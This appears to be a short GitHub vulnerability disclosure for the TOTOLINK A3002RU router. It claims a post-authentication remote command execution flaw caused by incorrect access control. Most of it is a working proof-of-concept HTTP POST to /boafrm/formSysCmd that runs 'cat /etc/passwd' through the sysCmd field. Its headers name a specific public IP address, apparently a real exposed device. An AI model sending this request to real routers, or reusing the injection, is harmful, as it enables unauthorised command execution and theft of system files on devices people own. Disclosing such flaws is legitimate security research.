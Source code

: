 ## TOTOLINK-A3002RU
Product:TOTOLINK-A3002RU
Firmware Version: TOTOLINK-A3002RU V2.0.0-B20190902.1958
Manufacturer's website information:http://www.totolink.cn/

### description
TOTOLINK-A3002RU has a post-auth rce due to the incorrect access control vulnerability, attackers can bypass front-end security restrictions by using burpsuite or smth like that


POC:

```
POST /boafrm/formSysCmd HTTP/1.1
Host: IP
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://113.53.30.58:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/110.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.
8,application/signed-exchange;v=b3;q=0.7
Referer: http://113.53.30.58:8443/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

submit-url=%2Fsyscmd.htm&sysCmdselect=5&sysCmdselects=0&save_apply=Run+Command&sysCmd=c
at+/etc/passwd
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/920fa305-e48d-42d2-bd02-61a4ea49bb43
